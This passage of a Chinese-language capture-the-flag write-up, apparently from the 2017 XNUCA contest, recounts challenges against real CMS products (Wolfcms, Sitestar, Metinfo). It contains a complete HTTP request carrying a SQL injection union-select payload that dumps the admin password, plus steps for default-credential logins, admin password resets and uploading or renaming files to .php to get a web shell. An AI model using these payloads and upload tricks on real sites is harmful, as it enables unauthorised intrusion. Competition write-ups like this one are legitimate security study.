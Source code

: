 `Phpcms9.6.3`，没做出来，貌似还加了waf

## #No.23 找入口

`Wolfcms`
admin admin 进后台，上传php拿到shell
参考链接：http://blog.csdn.net/hitwangpeng/article/details/45620701

## #No.24 可爱的星星

`Sitestar 建站之星`，没找到可用exp
ROIS:
```http
POST /index.php?_a=do_mail&_m=mod_email HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=65676uue8hmaigepggn66pn1l6
Host: 522e52f9f4f81b75b2718ad29ac60c14.xnuca.cn
Connection: close
User-Agent: Paw/3.1.2 (Macintosh; OS X/10.12.6) GCDHTTPRequest
Content-Length: 112
title=aa&email_s=a&email_m=a&type=a&users=aaaa%27%7Caaa&role%5B%5D=abdc%7D%27+union+select+
1%2Cuser%28%29%2C3%23
```
注入得到 `admin` 密码 `1234!@#$`
登录之后上传图片，文件管理中重命名为.php

## #No.25 愉快的玩耍吧

`Metinfo cms`
跟着exp，重置admin密码为1234567，进后台上传test.php打包成的zip，type改成skin，然后templates/test.php就是flag
参考链接：https://www.secpulse.com/archives/41084.html

## #No.26 挑战自我

没做

## #总结

整个比赛难度中等，基本都是在找现成exp，我们队除了MD5那题其他都是我A的，中间一度霸占榜一，但是最终排名第九，要反思的还是很多的。
放个图纪念曾经的榜一。
![](http://ovm02pvss.bkt.clouddn.com/2017xnuca1.jpg)
